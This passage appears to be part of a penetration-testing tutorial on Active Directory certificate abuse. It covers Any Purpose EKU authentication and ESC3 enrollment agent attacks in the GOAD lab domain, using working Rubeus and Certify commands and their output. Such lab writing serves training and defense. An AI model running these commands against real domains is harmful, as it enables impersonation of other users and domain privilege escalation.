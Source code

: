 ```bash
-----END CERTIFICATE-----
```

Use certificate for client authentication (as the requesting user)

```bash
Rubeus.exe asktgt /user:missandei /certificate:anypurpose.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful!
```

The Any Purpose EKU can still be dangerous as it bypasses many certificate validation checks and can be used for code signing, server authentication, and other purposes beyond the intended use case.

## ESC3: Enrollment Agent Templates

ESC3 is a really cool technique that exploits certificate templates granting Certificate Request Agent (Enrollment Agent) permissions. Basically, you can request certificates on behalf of other users once you get an agent certificate.

### Attack Flow

The attack is pretty straightforward:
1. Request an Enrollment Agent certificate
2. Use that agent certificate to request certificates for other users
3. Authenticate as those users

### Implementation

Let's see this in action with our GOAD environment:

Step 1: Request Enrollment Agent certificate
The built-in template is called "EnrollmentAgent" - clone it to ESC3-CRA for your lab if needed

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:EnrollmentAgent

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : EnrollmentAgent
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 9

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAzGQ5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQWxkT8F6PSyEz
...enrollment agent certificate...
-----END CERTIFICATE-----
```
